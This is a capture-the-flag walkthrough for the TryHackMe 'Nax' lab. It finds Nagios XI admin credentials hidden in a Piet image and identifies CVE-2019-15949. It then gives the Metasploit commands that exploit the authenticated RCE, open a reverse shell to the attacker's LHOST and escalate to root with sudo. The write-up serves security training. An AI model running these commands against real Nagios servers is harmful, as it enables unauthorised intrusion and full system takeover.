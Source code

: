 # [Nax](https://tryhackme.com/room/nax)

## Identify the critical security flaw in the most powerful and trusted network monitoring software on the market, that allows an user authenticated execute remote code execution.

# Flag

### What hidden file did you find?

1. Begin with network reconnaissance to identify open services

```bash
nmap IP
```

[SCREEN01]

2. Navigate to `https://<TARGET_IP>` to examine the web application. The page displays a periodic table. Extract the atomic numbers and decode using [CyberChef](https://gchq.github.io/CyberChef/). "From Decimal" operation reveals the hidden file path: `/PI3T.PNg`

```
Ag - Hg - Ta - Sb - Po - Pd - Hg - Pt - Lr
47 - 80 - 73 - 51 - 84 - 46 - 80 - 78 - 103
47 80 73 51 84 46 80 78 103
```

[SCREEN03]

---

### Who is the creator of the file?

1. Access the discovered file at `https://<TARGET_IP>/PI3T.PNg` and download it for analysis

2. Analyze the file using strings to extract embedded metadata.

```bash
strings PI3T.PNg
```

[SCREEN04]

---

### What is the username you found?

### What is the password you found?

_% is a separator_

1. The PNG file contains a Piet program (esoteric programming language using colors as code). Use an [online Piet interpreter](https://www.bertnase.de/npiet/npiet-execute.php) to execute the hidden program within the image.

   - The Piet program outputs credentials are `nagiosadmin:n3p3UQ&9BjLp4$7uhWdY`

[SCREEN05]

### What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000

1. Log into the Nagios XI interface at `http://<TARGET_IP>/nagiosxi/index.php` using the discovered credentials. The system reports version is `5.5.6`. The relevant CVE can be found at: `https://www.cve.org/CVERecord?id=CVE-2019-15949`

---

### After Metasploit has started, let's search for our target exploit using the command 'search applicationame'. What is the full path (starting with exploit) for the exploitation module?

1. search for our target exploit using the command 'search nagios'.

   - The module is: `exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce`

```bash
msfconsole
search nagios
```

[SCREEN06]

---

### Compromise the machine and locate user.txt

1. Configure module, and execute it to get user flag

```bash
use exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce
show options
set RHOSTS <TARGET_IP>
set USERNAME nagiosadmin
set PASSWORD n3p3UQ&9BjLp4$7uhWdY
set LHOST <YOUR_IP>
set LPORT 4444
exploit

shell

ls /home
ls /home/galand
cat /home/galand/user.txt
```

[SCREEN07]

---

### Locate root.txt

1. Escalate privileges to root user

```bash
sudo -l
sudo su -
whoami
cat /root/root.txt
```

[SCREEN08]
